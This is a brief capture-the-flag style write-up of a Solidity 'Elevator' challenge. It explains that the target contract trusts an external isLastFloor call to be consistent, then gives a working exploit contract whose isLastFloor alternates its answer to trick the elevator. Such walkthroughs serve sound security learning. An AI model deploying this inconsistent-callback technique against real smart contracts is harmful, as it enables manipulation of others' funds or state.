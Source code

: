 ### Analysis
The issue is in the assumption that .isLastFloor is a pure function. That is, the assumption that for any given floor, .isLastFloor will always return the same value.We can take advantage of this assumption by creating an impure function.

### The Exploit
Delopyed the follow contract,call the function of getTop:
~~~
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;
interface IElevator{
    function goTo(uint _floor) external; 
}

contract Building{
    bool flag = true;

    function isLastFloor(uint _floor) public returns (bool){
        flag = !flag;
        return flag;
    }

    function getTop(uint _floor,address _elevator) public {
        IElevator(_elevator).goTo(_floor);      
    }
}
~~~